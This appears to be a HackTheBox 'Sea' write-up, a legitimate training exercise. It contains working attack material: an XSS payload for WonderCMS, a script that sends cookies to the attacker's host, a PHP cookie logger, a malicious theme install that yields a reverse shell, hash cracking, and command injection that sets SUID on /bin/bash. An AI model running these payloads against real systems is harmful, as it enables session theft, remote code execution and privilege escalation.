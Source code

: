 ```yaml
---
layout: post
title: "Sea"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup]
pin: true
math: true
mermaid: true
#image:
 # path: /assets/img/commons/hackthebox.png
  #lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
 # alt: Hackthebox Image
---
```


as always starting with nmap

`sudo nmap -sC -sV -p- -oN sea 10.10.11.28`
![nmap_sea.png](/source/SEA/Pasted image 20240813000337.png)

nothing just web (Stupid one)

nothing interesting in the website so , let's move to fuzzing

`feroxbuster  --url http://10.129.115.194 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,404`

![[Pasted image 20240813000823.png]]

the license page 
```
MIT License

Copyright (c) 2019 turboblack

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:
```

![[Pasted image 20240813001042.png]]

so we are dealing with WondwerCMS

this CVE is interesting since we are on version 3.2.0 (check http://sea.htb/themes/bike/version)
https://github.com/prodigiousMind/CVE-2023-41425 

this script exploit  an xss to steal credential then use this creds to uplaod backdoored files

I will use the same plugins used in this exploit
```bash
wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
```

we need to  change the ==rev.php== file on the zip 

```php
$VERSION = "1.0";
$ip = 'UR OWN IP'; // CHANGE THIS
$port = 1337;
```


then I  will host a web serve 

```bash
php -S 0.0.0.0:80
```

![[Pasted image 20240813003150.png]]

```bash
python3 exploit.py http://sea.htb/loginURL 10.10.14.224 1337
```

we need to find out a way to  send the link to the admin , since the web app is using ==php== let's fuzz for the .php file

```bash
feroxbuster  --url http://10.129.115.194  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,400 -x php 

```
![[Pasted image 20240813003629.png]]

![[Pasted image 20240813023000.png]]

once we fill the form , with the malicious link in the website field

```url
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.224/script.js"></script><form+action="
```

in the ==script.js==
```javascript
new Image().src='http://IP/index.php?c='+document.cookie
```

in the ==index.php==
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


we will get the admin cookie in our web server
![[Pasted image 20240813023404.png]]
changing the cookies , guarantee more privilege in the website , we can now upload plugin

we can install our malicious plugins now , by tampering with the request sent from this button
![[Pasted image 20240813023604.png]]

```HTTP
GET /?installModule=http://IP/main.zip&directoryName=violet&type=themes&token=a5d00073e50332dd0ca6d448d4ccddc9449c7ae27828bb35cee8112d67debd58 HTTP/1.1
```

by visiting http://sea.htb/themes/revshell-main/rev.php

we should get shell on our listener 
![[Pasted image 20240813024341.png]]

this file got my intention
`/var/www/sea/data/database.js`
if we check his content we will find a hash
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

we need to remove the escapers to crack it
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q",
```

```bash
hashcat -a 0 -m 3200 --show hash                                       
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

this password got us  the  user ==amay==

another website is running on the port 8080 
```
amay@sea:~$ netstat -ntlp 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56005         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

but we need some type of authorization to access it

```bash
amay@sea:~$ curl 127.0.0.1:8080
Unauthorized access
```

I will reuse the password of amay
![[Pasted image 20240813025058.png]]

I will forward  the port 8080 to my machine , so I can see what's going on in this website

```
ssh -L 7000:localhost:8080 amay@sea.htb -N
```
 on http://127.0.0.1:7000/
 ![[Pasted image 20240813025643.png]]

I tried to read files , like ==/root/root.txt== but that didn't work 
![[Pasted image 20240813025715.png]]
so I tried to inject malicious command 

to confirm that , I will ping myself
first listen on the pings
``
```bash
sudo tcpdump -i  tun0 icmp
```

```HTTP
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;ping+-c+1+10.10.14.224&analyze_log=
```

this works
![[Pasted image 20240813030024.png]]

I will run
```
chmod u+s /bin/bash
```

```http
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68&analyze_log=
```

![[Pasted image 20240813030229.png]]

![[Pasted image 20240813030247.png]]
